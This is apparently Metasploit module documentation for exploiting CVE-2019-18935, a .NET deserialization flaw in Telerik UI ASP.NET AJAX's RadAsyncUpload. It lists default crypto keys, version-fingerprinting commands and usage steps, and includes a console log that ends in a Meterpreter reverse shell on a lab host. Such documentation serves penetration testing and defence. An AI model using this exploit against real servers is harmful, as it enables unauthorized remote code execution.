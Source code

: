 ## Vulnerable Application

This module exploits the .NET deserialization vulnerability within the RadAsyncUpload (RAU) component of Telerik UI
ASP.NET AJAX that is identified as CVE-2019-18935. In order to do so the module must upload a mixed mode .NET assembly
DLL which is then loaded through the deserialization flaw. Uploading the file requires knowledge of the cryptographic
keys used by RAU. The default values used by this module are related to CVE-2017-11317, which once patched randomizes
these keys. It is also necessary to know the version of Telerik UI ASP.NET that is running. This version number is in
the format YYYY.#(.###)? where YYYY is the year of the release (e.g. '2020.3.915').

### Version Reference

| Version                 | CVE-2017-11317                                  | CVE-2019-18938                    |
| ----------------------- | ----------------------------------------------- | --------------------------------- |
| < 2011.1.315            | Unknown                                         | Unknown                           |
| 2011.1.315 - 2017.2.621 | Vulnerable (unless patched and RAU is disabled) | Vulnerable                        |
| 2017.2.711 - 2019.3.917 | Configuration-dependent                         | Vulnerable                        |
| 2019.3.1023             | Configuration-dependent                         | Configuration-dependent (opt-in)  |
| > 2020.1.114            | Configuration-dependent                         | Configuration-dependent (default) |

* [https://www.telerik.com/support/kb/aspnet-ajax/upload-(async)/details/unrestricted-file-upload][1]
* [https://www.telerik.com/support/kb/aspnet-ajax/details/allows-javascriptserializer-deserialization][2]

### Configuring Telerik UI ASP.NET AJAX
Starting in version 2020.1.114, the application must be configured to be vulnerable by making changes to its XML
configuration file (`web.config`). For the live demos included within the Telerik UI trial version, this file is located
at `C:\Program Files (x86)\Progress\Telerik UI for ASP.NET AJAX R3 2020\Live Demos\web.config`. Within this
configuration file is the `appSettings` node. To make the instance vulnerable, add the following within this section and
restart the application if necessary:

```
  &lt;appSettings&gt;
    &lt;!-- Configured to replicate CVE-2017-11317 --&gt;
    &lt;add key=&quot;Telerik.AsyncUpload.ConfigurationEncryptionKey&quot; value=&quot;PrivateKeyForEncryptionOfRadAsyncUploadConfiguration&quot;/&gt;
    &lt;add key=&quot;Telerik.Upload.ConfigurationHashKey&quot; value=&quot;PrivateKeyForHashOfUploadConfiguration&quot;/&gt;
    &lt;!-- Configured to replicate CVE-2019-18935 --&gt;
    &lt;add key=&quot;Telerik.Upload.AllowedCustomMetaDataTypes&quot; value=&quot;System.Configuration.Install.AssemblyInstaller&quot;/&gt;
    &lt;!-- ... include the remaining configuration options --&gt;
```

## Verification Steps

Exploitation of this vulnerability requires knowledge of two things, the crypto keys (see the details for the
`RAU_ENCRYPTION_KEY` and `RAU_SIGNING_KEY` options) and the Telerik RAU ASP.NET AJAX version (see the details for the
`VERSION` option).

1. Start msfconsole
1. Do: `use exploit/windows/http/telerik_rau_deserialization `
1. Set the `RHOSTS` and `PAYLOAD` options
1. Set any additional options as required by the previously selected payload
1. Optionally set the `VHOST`, `RPORT` and `SSL` options as appropriate
1. Set the `VERSION` option if it is known
1. Run the exploit

The DLL file which is written to disk and executed via the deserialization flaw will remain loaded and thus can not be
cleaned up automatically by Metasploit.

## Options

### RAU_ENCRYPTION_KEY
The encryption key for the RAU configuration data. This setting can be changed [starting in version 2017.1.118][1.1] by
specifying the `Telerik.AsyncUpload.ConfigurationEncryptionKey` key within the `appSettings` section of the applications
`web.config` XML file. The default value per CVE-2017-11317 is `PrivateKeyForEncryptionOfRadAsyncUploadConfiguration`.

### RAU_SIGNING_KEY
The signing key for the RAU configuration data. This setting can be changed [starting in version 2017.1.118][1.1] by
specifying the `Telerik.Upload.ConfigurationHashKey` key within the `appSettings` section of the applications
`web.config` XML file. The default value per CVE-2017-11317 is `PrivateKeyForHashOfUploadConfiguration`. Versions older
than 2017.1.118 do not utilize signing.

### VERSION

The Telerik UI ASP.NET AJAX version. If this value is not specified, the module will attempt to enumerate it through a
series of requests using all known version numbers. This enumeration will fail if the correct crypto keys are not set.

Alternatively, the version information can sometimes be identified without authentication.

> If the application using RadAsyncUpload does not require authentication, then you can usually find the UI version
> buried somewhere in the HTML source of the application's home page. The location of the version string isn't
> consistent, though, so the best method of locating it is to use Burp to search for the regular expression
> `20[0-9]{2}(\.[0-9]*)+` (and make sure you check the "Regex" box). You can also accomplish this with cURL:
>
> `curl -skL <HOST> | grep -oE '20[0-9]{2}(\.[0-9]*)+'`
>
> If that doesn't work, you can alternatively search for the string `<script src="/WebResource` to identify any
> JavaScript files that are included in the site's home page. Choose one of the static resources there and examine its
> `Last-Modified` date in the HTTP response header; that date should roughly match the release date of the software. For
> example, a JavaScript resource bundled with UI for ASP.NET AJAX Q1 2013 (v2013.1.220, released on February 20, 2013)
> will read `Last-Modified: Wed, 20 Feb 2013 00:00:00 GMT` in the HTTP response header for that file.

*Source:* [https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui][3]

### EXE::Custom
*This is an advanced option.*

Use custom exe instead of automatically generating a payload exe. If a custom payload executable is specified, it must
be a [mixed mode assembly][4] DLL in order to be loaded through the deserialization technique.

## Scenarios

### Telerik UI ASP.NET AJAX v2020.3.915 on Windows 10

This system was configured to be vulnerable through changes to the application's `web.config` file.

```
msf > use exploit/windows/http/telerik_rau_deserialization
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/telerik_rau_deserialization) > set RHOSTS 192.168.159.129
RHOSTS => 192.168.159.129
msf exploit(windows/http/telerik_rau_deserialization) > set RPORT 8080
RPORT => 8080
msf exploit(windows/http/telerik_rau_deserialization) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf exploit(windows/http/telerik_rau_deserialization) > set VHOST win10dev
VHOST => win10dev
msf exploit(windows/http/telerik_rau_deserialization) > set VERBOSE true
VERBOSE => true
msf exploit(windows/http/telerik_rau_deserialization) > check

[*] Enumerating the Telerik UI ASP.NET AJAX version, this will fail if the keys are incorrect
[*] Checking version: 2020.3.915
[+] Uploaded 0 bytes to: C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp
[+] The Telerik UI ASP.NET AJAX version has been identified as: 2020.3.915
[*] Server is using default crypto keys and is vulnerable to CVE-2017-11317
[*] 192.168.159.129:8080 - The service is running, but could not be validated.
[!] This exploit may require manual cleanup of 'C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp' on the target
msf exploit(windows/http/telerik_rau_deserialization) > set VERSION 2020.3.915
VERSION => 2020.3.915
msf exploit(windows/http/telerik_rau_deserialization) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(windows/http/telerik_rau_deserialization) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] Uploaded 0 bytes to: C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp
[*] Server is using default crypto keys and is vulnerable to CVE-2017-11317
[!] The service is running, but could not be validated.
[+] Uploaded 29184 bytes to: C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp
[*] Executing the payload...
[*] Sending stage (175174 bytes) to 192.168.159.129
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.129:49466) at 2020-10-07 10:44:31 -0400
[!] This exploit may require manual cleanup of 'C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp' on the target
[!] This exploit may require manual cleanup of 'C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp' on the target
[!] This exploit may require manual cleanup of 'C:\Windows\Temp\B9MWZKcH4FGUFEb1ioFQnZollFxhhl3Pr.dll.tmp' on the target

meterpreter > getuid
Server username: WIN10DEV\smcintyre
meterpreter > sysinfo
Computer        : WIN10DEV
OS              : Windows 10 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```

[1]:   https://www.telerik.com/support/kb/aspnet-ajax/upload-(async)/details/unrestricted-file-upload
[1.1]: https://www.telerik.com/support/kb/aspnet-ajax/upload-(async)/details/unrestricted-file-upload#r1-2017-to-r2-2017-sp1
[2]:   https://www.telerik.com/support/kb/aspnet-ajax/details/allows-javascriptserializer-deserialization
[3]:   https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui
[4]:   https://docs.microsoft.com/en-us/cpp/dotnet/mixed-native-and-managed-assemblies?view=vs-2019
